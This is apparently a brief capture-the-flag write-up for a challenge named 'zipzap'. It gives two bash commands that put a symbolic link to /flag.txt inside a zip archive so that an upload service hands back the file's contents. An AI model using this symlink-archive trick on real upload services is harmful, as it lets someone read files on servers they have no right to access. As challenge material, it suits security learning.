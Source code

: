 inject a symbolic link to `flag.txt` in the `zipzap` directory, then compress it as a zip and upload. The flag will be in the zip file.

```bash 
ln -s /flag.txt flag
zip --symlinks  zipzap.zip flag
```

